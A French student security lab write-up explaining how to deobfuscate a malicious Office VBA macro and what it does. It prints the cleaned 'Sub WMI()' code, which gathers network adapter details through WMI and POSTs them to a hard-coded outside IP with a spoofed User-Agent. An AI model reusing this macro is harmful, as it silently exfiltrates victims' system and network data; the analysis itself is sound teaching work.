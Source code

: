# TP sécu déofusquage

## Étape 1 : Déofusquer le code 

**1 Changer le nom des variables, fonction, etc...**

La première sous-étape que j'ai effectuer pour pouvoir déofusquer le code et qui me permettra par extension d'y voir plus clair dans le code, s'est de changer le nom dans premier temps le nom des variables comme par exemple "Dim uuu As Long" qui devient dans mon code "Dim var8 As Long" : 
```=macro
Dim uuu As Long --> Dim var8 As Long
```

Ensuite dans la deuxième sous-étape s'est de changer le nom des fonctions comme par exemple "Dim mWDaeVN()" qui devient dans mon code "Dim function1()" : 
```=macro
Dim mWDaeVN() --> Dim function1()
```

Ensuite dans la troisième sous-étape s'est de changer les valeurs ascii par ce dont elles correspondent par exemple : 
```=macro
Chr(56) --> Chr(8)
Chr(Int("&H56")) --> Chr(Int("V"))
```

**"56"** correspondant à **"8"** dans la table ascii (décimal) et **"&H56"** correspondant à **"V"** dans la table ascii (hexadécimal)

Puis toujours dans la troisième sous-étape on vois que certain **"Debug.Print"** ne sert à rien donc on peut les enlever pour avoir un code encore plus lisible, ce qui nous permet de supprimer **"Sub"** qui ne servent à rien qui sont **"Sub opop()"** qui retourne le mot **"hi"** et **"Sub fizf()"** qui retourne **"yolo_yolo"**.

Ensuite dans la quatrième sous-étape on peut enlever certaine fonction qui ne servent à rien et/ou changer la chaîne de caractère entre parenthèse si on la connait. Comme par exemple toutes les **"public function"** qui ne servent à rien car le seul **"Sub"** qui est intéressant dans le code c'est **"Sub WMI()"**.

## Étape 2 : Comprendre et expliquer le code 

Quand on a fait toutes les sous-étapes précédente on peut voir et comprendre que de base la macro a été coder de sorte à ce que en gros il fasse un **"ipconfig /all"**, car la macro permet de récupérer nos cartes réseaux, leur configuration, les ports ouverts, le nom de notre PC, l'IP public du PC, son adresse MAC, etc... .

```=macro
Sub WMI()
    sWQL = "Select * From Win32_NetworkAdapterConfiguration"
    Set var_01 = GetObject("winmgmts:root/CIMV2")
    Set var_02 = var_01.ExecQuery(sWQL)
    Set var_03 = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "http://176.31.120.218:5000/thisis"
    Debug.Print Url
    For Each oWMIObjEx In var_02
        If Not IsNull(oWMIObjEx.IPAddress) Then
        Debug.Print "IP:"; oWMIObjEx.IPAddress(0)
        var_03.Open "POST", Url, True
        var_03.setRequestHeader "User-Agent", "Opera/9.34 (X11; Linux i686; en-US) Presto/2.9.340 Version/11.00"
        var_03.send oWMIObjEx.IPAddress(0)
        Debug.Print "Host name:"; oWMIObjEx.DNSHostName
        For Each oWMIProp In oWMIObjEx.Properties_
            If IsArray(oWMIProp.Value) Then
                For n = LBound(oWMIProp.Value) To UBound(oWMIProp.Value)
                    Debug.Print oWMIProp.Name & "()", oWMIProp.Value(n)
                    var_03.Open "POST", Url, True
                    var_03.setRequestHeader "User-Agent", "Opera/9.34 (X11; Linux i686; en-US) Presto/2.9.340 Version/11.00"
                    var_03.send oWMIProp.Value(n)
                Next
            Else
                Debug.Print oWMIProp.Name, oWMIProp.Value
                var_03.Open "POST", Url, True
                var_03.setRequestHeader "User-Agent", "Opera/9.34 (X11; Linux i686; en-US) Presto/2.9.340 Version/11.00"
                var_03.send oWMIProp.Value
            End If
        Next
        End If
    Next
End Sub
```

Ce qui prouve que si on ne fait pas attention une macro ofusquer peut faire beaucoup de chose dangereuse (selon les goûts de la personne qui la fait) juste en ouvrant le fichier (ou autre) dans laquelle est contenu la macro ofusquer.